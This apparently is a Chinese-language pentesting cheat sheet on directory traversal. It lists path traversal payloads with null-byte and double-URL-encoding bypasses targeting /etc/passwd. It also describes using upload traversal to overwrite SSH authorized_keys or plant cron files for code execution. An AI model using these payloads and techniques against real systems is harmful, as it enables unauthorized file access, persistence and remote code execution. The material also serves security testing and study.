


## **目录穿越，各种触发格式**
```
../
/../
/static../
/admin/admin.php?file=..././..././..././..././/etc/nginx/sites-enabled/site.conf
/.%00.%2F
/..%5c..%5c

包含 %00，这在文件路径中是不合法的。在大多数操作系统中，
空字符（null byte）用于表示字符串的结束，
如果这个字符串被错误地解释为文件路径，它实际上可能不会形成一个有效的路径。


url编码绕过
.   =>  %2e
/   =>  %2f
% => %25  (双重URL编码)

..%2f..%2f..%2fetc/passwd
..%252f..%252f..%252fetc/passwd  
```

^
## **目录穿越利用场景**
文件下载目录穿越。
文件上传目录穿越，穿越覆盖ssh公钥/root/.ssh/authorized_keys。


文件上传可以覆盖的情况下，也可以直接覆盖定时任务的文件（像redis定时任务rce那样，只不过我们是覆盖，redis是写入）
Centos 的定时任务文件在 /var/spool/cron/<username>
Ubuntu 的定时任务文件在 /var/spool/cron/crontabs/<username>

以centos为例

那么我们就可以覆盖/var/spool/cron/root这个文件实现rce

但是这里我们不能覆盖，只能增加文件

我们可以增加其他用户的定时任务，因为默认情况下是没有任何文件的，就算是有也大概率是root

那么我们可以通过上传文件/var/spool/cron/daemon（找到一个一般Linux都有的用户名）从而实现定时任务rce，只不过拿到的权限不是root



^
## **路匹配鉴权绕过**

<https://blog.chain0x0.com/article/java%E8%B7%AF%E5%8C%B9%E9%85%8D%E6%9D%83%E9%99%90%E7%BB%95%E8%BF%87>